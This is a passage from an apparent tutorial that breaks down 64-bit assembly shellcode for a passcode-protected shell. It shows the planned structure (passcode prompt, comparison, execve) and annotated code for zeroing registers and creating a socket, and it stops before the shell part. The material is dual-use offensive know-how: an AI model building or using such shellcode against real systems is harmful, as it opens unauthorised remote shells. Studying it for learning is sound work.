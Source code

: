 + Function that is only executed if the comparison ends up not matching. (write failure message)

+ Function that asks for the passcode (write). After the dup2 syscall is initialized, a JMP will be set so that the flow directly continues to this function.

+ Function that reads the input (read).

+ Function that compares the input with the intended passcode. If they do not match, jump to the failure function.

+ Execve

+ Execve

##### Time to stick our hands into the mud

Let's crack this shellcode down and explain it section by section, shall we?

First things first, we have to clean all registers, otherwise the shellcode would fail within a real program flow with distinct values.

```term
global _start

_start:

xoring:

       xor rax, rax           ; Zeroes out RAX.
       xor rbx, rbx           ; Zeroes out RBX.
       xor rdi, rdi           ; Zeroes out RDI.
       xor rsi, rsi           ; Zeroes out RSI.
       xor rdx, rdx           ; Zeroes out RDX.
       xor rbp, rbp           ; Zeroes out RBP.
```

Let's initialize the socket. The procedure should follow this path:

manpage arguments: ```int socket(int domain, int type, int protocol);```

+ RAX obtains the syscall value.
+ RDI is incremented until the value AF_INET is given.
+ RSI is incremented once, in order to obtain the value SOCK_STREAM.
+ RDX is pushed, as its value is required to be 0.
+ The syscall is executed.
+ The RAX value is copied into RBX for sockfd arguments later on.

```term

socket:

       push word 41           ; Pushes word 41 (socket) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.

       inc rdi                ; Increments RDI.
       inc rdi                ; Increments RDI. Gives the value of AF_INET.
       inc rsi                ; Increments RSI. Gives value of SOCK_STREAM.

       push rdx               ; As the protocol isn't important, the value of 0 in RDX is pushed.
       syscall                ; The syscall is executed.

       mov rbx, rax           ; The value of RAX is saved on RBX. Such value will later on be used for sockfd arguments.
```
